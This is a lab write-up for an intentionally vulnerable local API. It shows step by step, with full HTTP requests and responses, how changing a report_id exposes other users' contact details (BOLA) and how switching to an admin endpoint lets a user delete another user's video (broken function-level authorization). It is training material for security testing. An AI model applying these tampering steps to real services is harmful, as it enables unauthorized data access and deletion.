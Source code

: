 
---

# 📖 High-Level Summary:

### Steps to Identify and Exploit BOLA:

**BOLA (Broken Object Level Authorization)** occurs when an application fails to enforce proper access control on individual objects. In this lab, BOLA is confirmed when the user (John) is able to access another user's mechanic report and vehicle details by modifying the `report_id` in the API endpoint. This demonstrates a lack of authorization checks at the object level, exposing sensitive data like vehicle owner information, emails, and phone numbers.

---

### Steps to Identify and Exploit BLFA:

**BLFA (Broken Function Level Authorization)** occurs when an application fails to restrict access to sensitive functions, allowing unauthorized users to perform actions reserved for privileged roles (e.g., admin). In this lab, BLFA is confirmed when the user modifies the API endpoint for deleting videos from the user-specific API to the admin API. This bypasses function-level restrictions and allows the user to delete another user's video, a privilege meant only for admins.

---

# 📚 Definition Bank:

### BOLA (Broken Object Level Authorization)

- **Definition:** Occurs when users can access objects (like other users' data) by manipulating object identifiers without proper authorization.
- **Impact:** Privacy breaches, exposure of sensitive data, and potential escalation of privileges.

### BLFA (Broken Function Level Authorization)

- **Definition:** Occurs when users can perform restricted functions due to improper authorization at the function level.
- **Impact:** Unauthorized users can access admin-level functions, bypass restrictions, and manipulate data.

---

# 🎯 Steps to Identify and Exploit BOLA:

### Step 1: Logging into the Dashboard

- Visit:
    
    ```plaintext
    http://localhost:8888/dashboard
    ```
    
- Click **Contact Mechanic** to load the service request form.

---

### Step 2: Capturing Traffic with Burp Suite

- Fill in the form with:
    - **VIN:** `1GIGF95XMMN431588`
    - **Mechanic Name:** `TRAC_JHN`
    - **Problem Description:** `test_data_123` (for easy identification).
- Submit the form, and capture the **POST request** in Burp Suite:
    
    ```http
    POST /workshop/api/merchant/contact_mechanic
    ```
    
- **Request Body:**
    
    ```json
    {
      "mechanic_code": "TRAC_JHN",
      "problem_details": "test_data_123",
      "vin": "1GIGF95XMMN431588",
      "mechanic_api": "http://localhost:8888/workshop/api/mechanic/receive_report",
      "repeat_request_if_failed": false,
      "number_of_repeats": 1
    }
    ```
    

---

### Step 3: Discovering Hidden API Endpoints

- Inspect the response:
    
    ```json
    {
      "response_from_mechanic_api": {
        "id": 6,
        "sent": true,
        "report_link": "http://localhost:8888/workshop/api/mechanic/mechanic_report?report_id=6"
      },
      "status": 200
    }
    ```
    
- Take note of the hidden API endpoint: `/api/mechanic/receive_report`.

---

### Step 4: Exploiting BOLA via Postman

- Use Postman to send a **GET request** to:
    
    ```plaintext
    http://localhost:8888/workshop/api/mechanic/mechanic_report?report_id=4
    ```
    
- **Headers:** Include the user's `Authorization` cookie:
    
    ```plaintext
    Bearer <user_token>
    ```
    
- **Response:**
    
    ```json
    {
      "id": 4,
      "mechanic": {
        "mechanic_code": "TRAC_JME",
        "user": {
          "email": "james@example.com"
        }
      },
      "vehicle": {
        "vin": "8VAUI03PRUQ686911",
        "owner": {
          "email": "pogba006@example.com",
          "number": "9876570006"
        }
      },
      "problem_details": "My car MG Motor - Hector Plus is having issues."
    }
    ```
    
- ✅ **BOLA Confirmed:** User John was able to access data for another vehicle owner, exposing sensitive information.

---

# 🎯 Steps to Identify and Exploit BLFA:

### Step 1: Uploading a Video

1. Log into the account at:
    
    ```plaintext
    http://localhost:8888/my-profile
    ```
    
2. Upload `car.mp4`:
    
    ```plaintext
    POST /identity/api/v2/user/videos
    ```
    
3. Capture the **response** in Burp Suite:
    
    ```json
    {
      "id": 52,
      "video_name": "car.mp4",
      "conversion_params": "-v codec h264",
      "profileVideo": "..."
    }
    ```
    

---

### Step 2: Bypassing Authorization to Delete a Video

1. Use Postman to:
    
    - **Sign up and log in as a new user.**
    - Upload a new video (e.g., `car.mp4`), obtaining a new video ID (e.g., `53`).
2. Attempt to delete another user’s video:
    
    ```plaintext
    DELETE {{url}}/identity/api/v2/user/videos/52
    ```
    
    - **Response:**
        
        ```json
        {
          "message": "This is an admin function. Try to access the admin API",
          "status": 403
        }
        ```
        
3. Modify the endpoint to target the **admin API**:
    
    ```plaintext
    DELETE {{url}}/identity/api/v2/admin/videos/52
    ```
    
    - **Response:**
        
        ```json
        {
          "message": "User video deleted successfully.",
          "status": 200
        }
        ```
        

- ✅ **BLFA Confirmed:** Unauthorized user performed an admin-level action to delete another user’s video.

---

# ❓ Why Are These Vulnerabilities Critical?

### BOLA:

- **Cause:** Missing access control on object-level requests.
- **Impact:** Sensitive data exposure, privacy violations.

### BLFA:

- **Cause:** Missing function-level authorization checks.
- **Impact:** Unauthorized users performing admin-level operations.

---

# ✅ Key Takeaways:

- **Always Implement Proper Authorization:** Validate permissions for every request, object, and function.
- **Test for Vulnerabilities Early:** Use tools like Burp Suite and Postman to simulate real-world attacks.
- **Protect APIs with Tokens:** Use RBAC (Role-Based Access Control) and token validation to secure sensitive endpoints.

---